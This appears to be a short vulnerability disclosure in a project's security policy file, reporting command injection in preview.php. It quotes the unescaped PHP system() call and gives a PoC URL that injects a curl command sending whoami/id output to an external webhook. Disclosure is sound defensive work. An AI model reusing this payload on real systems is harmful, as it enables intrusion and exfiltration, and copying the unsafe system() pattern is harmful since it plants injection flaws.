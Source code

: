 # Security Policy


## Reporting a Vulnerability

The preview.php file have a commnad injection vuln, you can add an escapeshellarg to prevent it !  

vulnerable code:  
```php
system("/usr/bin/optipng " . $cachePath . " >/dev/null 2>/dev/null");
```


### PoC
![image](https://github.com/user-attachments/assets/707023f8-8c13-4c85-9d01-fa1a7e646a8a)

URL : [https://www.sandcomp.com/sandphoto/temp/preview-14-28-blue%20;%20curl%20https://webhook.site/c7cba25c-dc7b-4a19-be47-2ac1c3268450%20--data%20$(whoami%20;%20id)](https://www.sandcomp.com/sandphoto/preview.php?t=14&c=28&b=blue%20;%20curl%20https://webhook.site/c7cba25c-dc7b-4a19-be47-2ac1c3268450%20--data%20$(whoami%20;%20id))

Result : 
![image](https://github.com/user-attachments/assets/8daf21b6-5f28-41f4-b8cc-407e73c7eeef)

